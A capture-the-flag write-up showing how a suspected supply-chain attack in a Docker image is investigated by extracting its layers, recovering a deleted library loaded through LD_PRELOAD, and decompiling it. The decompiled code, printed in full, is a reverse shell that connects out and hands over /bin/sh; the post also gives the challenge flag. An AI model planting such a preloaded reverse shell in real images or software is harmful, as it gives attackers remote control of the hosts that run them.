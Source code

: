# Peel back the layers

The description for this challenge is as follows:

*An unknown maintainer managed to push an update to one of our public docker images. Our SOC team reported suspicious traffic coming from some of our steam factories ever since. The update got retracted making us unable to investigate further. We are concerned that this might refer to a supply-chain attack. Could you investigate?
Docker Image: steammaintainer/gearrepairimage*

The challenge was rated at 1 out of 4 stars, and it was worth 325 points at the end with a total of 165 solves. This one was pretty easy, although it required some basic knowledge of how docker images work and some very basic binary reverse-engineering.

**TL;DR Solution:** Download the docker image and extract it to a tar archive for easy examination of the layers. Note that an attempt to delete a folder was made in the history, and retrieve the file from one of the layers. Note that it displays indicators of malware, and extract the flag loaded into a stack variable.

## Examining the Docker Image

As a first step, I need to retrieve something to investigate. I can actually download the full docker image using a pull command like so:
```
knittingirl@piglet:~/CTF/HTB_Uni_Quals_21$ sudo docker pull steammaintainer/gearrepairimage 
[sudo] password for knittingirl: 
Using default tag: latest
latest: Pulling from steammaintainer/gearrepairimage
7b1a6ab2e44d: Pull complete 
858929a69ddb: Pull complete 
97239c492e4d: Pull complete 
Digest: sha256:10d7e659f8d2bc2abcc4ef52d6d7caf026d0881efcffe016e120a65b26a87e7b
Status: Downloaded newer image for steammaintainer/gearrepairimage:latest
docker.io/steammaintainer/gearrepairimage:latest
```
Afterwards, it shows up in my docker images:
```
knittingirl@piglet:~/CTF/HTB_Uni_Quals_21$ sudo docker images
[sudo] password for knittingirl: 
REPOSITORY                        TAG       IMAGE ID       CREATED        SIZE
steammaintainer/gearrepairimage   latest    47f41629f1cf   10 days ago    72.8MB
```
Based on the image ID, I can look at the command line history of the image. Interestingly, it looks like somebody tried to delete the folder /usr/share/lib/.
```
knittingirl@piglet:~/CTF/HTB_Uni_Quals_21$ sudo docker history 47f41629f1cf
IMAGE          CREATED       CREATED BY                                      SIZE      COMMENT
47f41629f1cf   10 days ago   /bin/sh -c #(nop)  CMD ["bin/bash" "-c" "/bi…   0B        
<missing>      10 days ago   /bin/sh -c rm -rf /usr/share/lib/               0B        
<missing>      10 days ago   /bin/sh -c #(nop)  CMD ["bin/bash" "-c" "/bi…   0B        
<missing>      10 days ago   /bin/sh -c #(nop)  ENV LD_PRELOAD=              0B        
<missing>      10 days ago   /bin/sh -c #(nop)  CMD ["bin/bash" "-c" "/bi…   0B        
<missing>      10 days ago   /bin/sh -c #(nop)  ENV LD_PRELOAD=/usr/share…   0B        
<missing>      10 days ago   /bin/sh -c #(nop) COPY file:0b1afae23b8f468e…   16.4kB    
<missing>      10 days ago   /bin/sh -c #(nop)  CMD ["bin/bash" "-c" "/bi…   0B        
<missing>      5 weeks ago   /bin/sh -c #(nop)  CMD ["bash"]                 0B        
<missing>      5 weeks ago   /bin/sh -c #(nop) ADD file:5d68d27cc15a80653…   72.8MB 
```
The challenge's title references layers. Docker images are actually comprised of several layers, and it is a reasonably common tactic in forensic challenges to hide files in layers that would not be visible if you actually booted up the image and attempted to look at the file system in that manner. One of the more straightforward ways to examine a Docker image's layers is by extracting the whole thing to a tar archive, 
```
sudo docker save 47f41629f1cf > gearrepair.tar
```
I can then untar the archive and examine the contents. I found the supposedly deleted file fairly quickly; here is what the process looks like from the command line.
```
knittingirl@piglet:~/CTF/HTB_Uni_Quals_21$ mkdir peel_back_the_layers
knittingirl@piglet:~/CTF/HTB_Uni_Quals_21$ tar -C peel_back_the_layers -xvf peel_back_the_layers.tar 
0aec9568b70f59cc149be9de4d303bc0caf0ed940cd5266671300b2d01e47922/
0aec9568b70f59cc149be9de4d303bc0caf0ed940cd5266671300b2d01e47922/VERSION
0aec9568b70f59cc149be9de4d303bc0caf0ed940cd5266671300b2d01e47922/json
0aec9568b70f59cc149be9de4d303bc0caf0ed940cd5266671300b2d01e47922/layer.tar
47f41629f1cfcaf8890339a7ffdf6414c0c1417cfa75481831c8710196627d5d.json
49201f69ba5d50da3c2d9fc6b07504640aed8ebf5caee85e2191e715f6d52127/
49201f69ba5d50da3c2d9fc6b07504640aed8ebf5caee85e2191e715f6d52127/VERSION
49201f69ba5d50da3c2d9fc6b07504640aed8ebf5caee85e2191e715f6d52127/json
49201f69ba5d50da3c2d9fc6b07504640aed8ebf5caee85e2191e715f6d52127/layer.tar
52c3108fa9ec86ba321f021d91d0da0c91a2dd2ac173cd27b633f6c2962fac6f/
52c3108fa9ec86ba321f021d91d0da0c91a2dd2ac173cd27b633f6c2962fac6f/VERSION
52c3108fa9ec86ba321f021d91d0da0c91a2dd2ac173cd27b633f6c2962fac6f/json
52c3108fa9ec86ba321f021d91d0da0c91a2dd2ac173cd27b633f6c2962fac6f/layer.tar
manifest.json
knittingirl@piglet:~/CTF/HTB_Uni_Quals_21$ cd peel_back_the_layers/
knittingirl@piglet:~/CTF/HTB_Uni_Quals_21/peel_back_the_layers$ ls
0aec9568b70f59cc149be9de4d303bc0caf0ed940cd5266671300b2d01e47922
47f41629f1cfcaf8890339a7ffdf6414c0c1417cfa75481831c8710196627d5d.json
49201f69ba5d50da3c2d9fc6b07504640aed8ebf5caee85e2191e715f6d52127
52c3108fa9ec86ba321f021d91d0da0c91a2dd2ac173cd27b633f6c2962fac6f
manifest.json
knittingirl@piglet:~/CTF/HTB_Uni_Quals_21/peel_back_the_layers$ cd 0aec9568b70f59cc149be9de4d303bc0caf0ed940cd5266671300b2d01e47922/
knittingirl@piglet:~/CTF/HTB_Uni_Quals_21/peel_back_the_layers/0aec9568b70f59cc149be9de4d303bc0caf0ed940cd5266671300b2d01e47922$ ls
VERSION  json  layer.tar
knittingirl@piglet:~/CTF/HTB_Uni_Quals_21/peel_back_the_layers/0aec9568b70f59cc149be9de4d303bc0caf0ed940cd5266671300b2d01e47922$ tar -xvf layer.tar 
usr/
usr/share/
usr/share/lib/
usr/share/lib/.wh..wh..opq
usr/share/lib/librs.so
knittingirl@piglet:~/CTF/HTB_Uni_Quals_21/peel_back_the_layers/0aec9568b70f59cc149be9de4d303bc0caf0ed940cd5266671300b2d01e47922$ ls
VERSION  json  layer.tar  usr
knittingirl@piglet:~/CTF/HTB_Uni_Quals_21/peel_back_the_layers/0aec9568b70f59cc149be9de4d303bc0caf0ed940cd5266671300b2d01e47922$ cd usr
knittingirl@piglet:~/CTF/HTB_Uni_Quals_21/peel_back_the_layers/0aec9568b70f59cc149be9de4d303bc0caf0ed940cd5266671300b2d01e47922/usr$ ls
share
knittingirl@piglet:~/CTF/HTB_Uni_Quals_21/peel_back_the_layers/0aec9568b70f59cc149be9de4d303bc0caf0ed940cd5266671300b2d01e47922/usr$ cd share
knittingirl@piglet:~/CTF/HTB_Uni_Quals_21/peel_back_the_layers/0aec9568b70f59cc149be9de4d303bc0caf0ed940cd5266671300b2d01e47922/usr/share$ ls
lib
knittingirl@piglet:~/CTF/HTB_Uni_Quals_21/peel_back_the_layers/0aec9568b70f59cc149be9de4d303bc0caf0ed940cd5266671300b2d01e47922/usr/share$ cd lib
knittingirl@piglet:~/CTF/HTB_Uni_Quals_21/peel_back_the_layers/0aec9568b70f59cc149be9de4d303bc0caf0ed940cd5266671300b2d01e47922/usr/share/lib$ ls
librs.so

```
If I run strings on this file, there are some indicators of it being a reverse shell of some kind; there are references to REMOTE_ADDR and REMOTE_PORT, and there is a GOT entry for the execve function.
```
knittingirl@piglet:~/CTF/HTB_Uni_Quals_21/peel_back_the_layers/0aec9568b70f59cc149be9de4d303bc0caf0ed940cd5266671300b2d01e47922/usr/share/lib$ strings -n10 librs.so 
__gmon_start__
_ITM_deregisterTMCloneTable
_ITM_registerTMCloneTable
__cxa_finalize
GLIBC_2.2.5
REMOTE_ADDR
REMOTE_PORT
GCC: (Debian 10.2.1-6) 10.2.1 20210110
crtstuff.c
deregister_tm_clones
__do_global_dtors_aux
completed.0
__do_global_dtors_aux_fini_array_entry
frame_dummy
__frame_dummy_init_array_entry
__FRAME_END__
__dso_handle
__GNU_EH_FRAME_HDR
__TMC_END__
_GLOBAL_OFFSET_TABLE_
getenv@GLIBC_2.2.5
_ITM_deregisterTMCloneTable
write@GLIBC_2.2.5
htons@GLIBC_2.2.5
dup2@GLIBC_2.2.5
execve@GLIBC_2.2.5
inet_addr@GLIBC_2.2.5
__gmon_start__
atoi@GLIBC_2.2.5
connect@GLIBC_2.2.5
_ITM_registerTMCloneTable
__cxa_finalize@GLIBC_2.2.5
fork@GLIBC_2.2.5
socket@GLIBC_2.2.5
.note.gnu.build-id
.gnu.version
.gnu.version_r
.eh_frame_hdr
.init_array
.fini_array
```
If I decompile the file with Ghidra, I can see that the suspicious activity seems to be taking place in a con() function. It looks like a string is getting loaded into a stack variable, and this is probably the flag.
```
undefined8 con(void)

{
  int iVar1;
  char *__nptr;
  char local_68 [40];
  undefined local_38 [4];
  in_addr_t local_34;
  int local_20;
  uint16_t local_1a;
  char *local_18;
  __pid_t local_c;
  
  local_c = fork();
  if (local_c == 0) {
    local_18 = getenv("REMOTE_ADDR");
    __nptr = getenv("REMOTE_PORT");
    iVar1 = atoi(__nptr);
    local_1a = (uint16_t)iVar1;
    local_68._0_8_ = 0x33725f317b425448;
    local_68._8_8_ = 0x6b316c5f796c6c34;
    local_68._16_8_ = 0x706d343374735f33;
    local_68._24_8_ = 0x306230725f6b6e75;
    local_68._32_8_ = 0xd0a7d2121217374;
    local_38._0_2_ = 2;
    local_34 = inet_addr(local_18);
    local_38._2_2_ = htons(local_1a);
    local_20 = socket(2,1,0);
    connect(local_20,(sockaddr *)local_38,0x10);
    write(local_20,local_68,0x29);
    dup2(local_20,0);
    dup2(local_20,1);
    dup2(local_20,2);
    execve("/bin/sh",(char **)0x0,(char **)0x0);
  }
  return 0;
}
```
I created a python script to do the conversion for me:
```
flag_list = []
flag_list.append(0x33725f317b425448)
flag_list.append(0x6b316c5f796c6c34)
flag_list.append(0x706d343374735f33)
flag_list.append(0x306230725f6b6e75)
flag_list.append(0xd0a7d2121217374)

flag = b''
for item in flag_list:
	flag += (item).to_bytes(8, byteorder='little')
print(flag)
```
And it printed out the flag for me:
```
knittingirl@piglet:~/CTF/HTB_Uni_Quals_21$ python3 gearrepair_string_convert.py 
b'HTB{1_r34lly_l1k3_st34mpunk_r0b0ts!!!}\n\r'
```
Thanks for reading!
